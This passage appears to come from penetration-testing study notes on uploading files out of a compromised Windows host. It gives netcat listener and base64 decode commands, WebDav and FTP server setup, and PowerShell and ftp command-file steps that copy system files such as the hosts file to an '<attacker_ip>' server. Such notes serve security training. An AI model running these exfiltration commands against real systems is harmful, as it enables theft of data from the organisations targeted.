  We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.
```bash
nc -lvnp 8000


echo <base64> | base64 -d -w 0 > hosts
```


### SMB and WebDav Uploads
Companies usually allow outbound traffic using HTTP and HTTPS protocols. Commonly enterprises don't allow the SMB protocol out of their internal network because this can open them up to potential attacks. An alternative is to run `SMB over HTTP with WebDav`

#### WebDav server
 Set up a WebDav server using Python modules `wsgidav` and `cheroot`:
 ```bash
sudo pip3 install wsgidav cheroot

#run
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
    ```
  
  Connect to the share using the special `DavWWWRoot` keyword
```powershell
dir \\<attacker_ip>\DavWWWRoot
```

>[!Note]
> `DavWWWRoot` is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

  Upload files by copying them to the share
```powershell
copy C:\path\to\a\file.zip \\<attacker_ip>\DavWWWRoot\

copy C:\path\to\a\file.zip \\<attacker_ip>\sharefolder\
```

>[!NOTE]
>If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.
### FTP Uploads

#### FTP Server with write permissions
```bash
sudo python3 -m pyftpdlib --port 21 --write
   ```
#### Powershell upload file
```powershell
(New-Object Net.WebClient).UploadFile('ftp://target_ip/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
    ```
#### FTP command file
```powershell
echo open <attacker_ip> > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT C:\Windows\System32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
